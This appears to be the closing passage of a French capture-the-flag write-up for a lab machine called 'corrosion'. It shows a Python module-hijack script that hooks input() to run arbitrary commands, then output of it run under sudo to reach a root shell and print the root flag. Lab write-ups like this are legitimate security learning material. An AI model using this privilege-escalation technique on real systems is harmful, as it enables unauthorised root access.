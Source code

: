 J'aurais pu faire exécuter une simple commande j'ai j'ai choisi de hooker l'appel à *input()*, ça fait plus classe :)  

```python
import os
from sys import exit

def b64encode(b):
  return b

real_input = __builtins__["input"]

def input(s):
  cmd = real_input(s)
  os.system(cmd.strip())
  exit()

__builtins__["input"] = input
```

```plain
randy@corrosion:~$ sudo /usr/bin/python3.8 /home/randy/randombase64.py
Enter your string: id
uid=0(root) gid=0(root) groups=0(root)
randy@corrosion:~$ sudo /usr/bin/python3.8 /home/randy/randombase64.py
Enter your string: bash -p
root@corrosion:/home/randy# cd /root
root@corrosion:~# ls
root.txt  snap
root@corrosion:~# cat root.txt
2fdbf8d4f894292361d6c72c8e833a4b
```

That's all folks!  


*Published December 26 2021 at 11:33*
